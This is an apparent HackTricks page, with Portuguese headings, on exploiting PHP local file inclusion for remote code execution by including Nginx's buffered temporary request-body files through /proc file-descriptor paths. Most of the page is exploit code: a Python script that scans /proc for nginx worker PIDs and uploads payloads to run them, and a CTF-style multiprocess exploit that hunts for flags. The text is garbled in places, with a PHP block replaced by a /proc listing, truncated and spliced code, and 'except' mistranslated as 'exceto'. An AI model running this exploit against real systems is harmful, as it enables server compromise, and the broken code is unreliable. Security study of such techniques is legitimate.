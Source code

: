 # LFI2RCE via Nginx temp files

{{#include ../../banners/hacktricks-training.md}}

## Configuração vulnerável

[**Exemplo de https://bierbaumer.net/security/php-lfi-with-nginx-assistance/**](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

- Código PHP:
```php

/dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:56 1 -> /dev/pts/0 lrwx------ 1 www-data www-data 64 Dec 25 23:49 10 -> anon\_inode:\[eventfd] lrwx------ 1 www-data www-data 64 Dec 25 23:49 11 -> socket:\[27587] lrwx------ 1 www-data www-data 64 Dec 25 23:49 12 -> socket:\[27589] lrwx------ 1 www-data www-data 64 Dec 25 23:56 13 -> socket:\[44926] lrwx------ 1 www-data www-data 64 Dec 25 23:57 14 -> socket:\[44927] lrwx------ 1 www-data www-data 64 Dec 25 23:58 15 -> /var/lib/nginx/body/0000001368 (deleted) ... \`\`\` Note: One cannot directly include \`/proc/34/fd/15\` in this example as PHP's \`include\` function would resolve the path to \`/var/lib/nginx/body/0000001368 (deleted)\` which doesn't exist in in the filesystem. This minor restriction can luckily be bypassed by some indirection like: \`/proc/self/fd/34/../../../34/fd/15\` which will finally execute the content of the deleted \`/var/lib/nginx/body/0000001368\` file. ## Full Exploit \`\`\`python #!/usr/bin/env python3 import sys, threading, requests # exploit PHP local file inclusion (LFI) via nginx's client body buffering assistance # see https://bierbaumer.net/security/php-lfi-with-nginx-assistance/ for details URL = f'http://{sys.argv\[1]}:{sys.argv\[2]}/' # find nginx worker processes r = requests.get(URL, params={ 'file': '/proc/cpuinfo' }) cpus = r.text.count('processor') r = requests.get(URL, params={ 'file': '/proc/sys/kernel/pid\_max' }) pid\_max = int(r.text) print(f'\[\*] cpus: {cpus}; pid\_max: {pid\_max}') nginx\_workers = \[] for pid in range(pid\_max): r = requests.get(URL, params={ 'file': f'/proc/{pid}/cmdline' }) if b'nginx: worker process' in r.content: print(f'\[\*] nginx worker found: {pid}') nginx\_workers.append(pid) if len(nginx\_workers) >= cpus: break done = False # upload a big client body to force nginx to create a /var/lib/nginx/body/$X def uploader(): print('\[+] starting uploader') while not done: requests.get(URL, data=' //'

```
requests_session.post(SERVER + "/?action=read&file=/bla", data=(payload + ("a" * (body_size - len(payload)))))

exceto:
pass
```

def send\_payload\_worker(requests\_session): while True: send\_payload(requests\_session)

def send\_payload\_multiprocess(requests\_session): # Use all CPUs to send the payload as request body for Nginx for \_ in range(multiprocessing.cpu\_count()): p = multiprocessing.Process(target=send\_payload\_worker, args=(requests\_session,)) p.start()

def generate\_random\_path\_prefix(nginx\_pids): # This method creates a path from random amount of ProcFS path components. A generated path will look like /proc/\<nginx pid 1>/cwd/proc/\<nginx pid 2>/root/proc/\<nginx pid 3>/root path = "" component\_num = random.randint(0, 10) for \_ in range(component\_num): pid = random.choice(nginx\_pids) if random.randint(0, 1) == 0: path += f"/proc/{pid}/cwd" else: path += f"/proc/{pid}/root" return path

def read\_file(requests\_session, nginx\_pid, fd, nginx\_pids): nginx\_pid\_list = list(nginx\_pids) while True: path = generate\_random\_path\_prefix(nginx\_pid\_list) path += f"/proc/{nginx\_pid}/fd/{fd}" try: d = requests\_session.get(SERVER + f"/?action=include\&file={path}").text except: continue # Flags are formatted as hxp{} if "hxp" in d: print("Found flag! ") print(d)

def read\_file\_worker(requests\_session, nginx\_pid, nginx\_pids): # Scan Nginx FDs between 10 - 45 in a loop. Since files and sockets keep closing - it's very common for the request body FD to open within this range for fd in range(10, 45): thread = threading.Thread(target = read\_file, args = (requests\_session, nginx\_pid, fd, nginx\_pids)) thread.start()

def read\_file\_multiprocess(requests\_session, nginx\_pids): for nginx\_pid in nginx\_pids: p = multiprocessing.Process(target=read\_file\_worker, args=(requests\_session, nginx\_pid, nginx\_pids)) p.start()

if **name** == "**main**": print('\[DEBUG] Creating requests session') requests\_session = create\_requests\_session() print('\[DEBUG] Getting Nginx pids') nginx\_pids = get\_nginx\_pids(requests\_session) print(f'\[DEBUG] Nginx pids: {nginx\_pids}') print('\[DEBUG] Starting payload sending') send\_payload\_multiprocess(requests\_session) print('\[DEBUG] Starting fd readers') read\_file\_multiprocess(requests\_session, nginx\_pids)

```
## Labs

- [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz)
- [https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/](https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/)
- [https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/](https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/)

## Referências

- [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

{{#include ../../banners/hacktricks-training.md}}
```

```

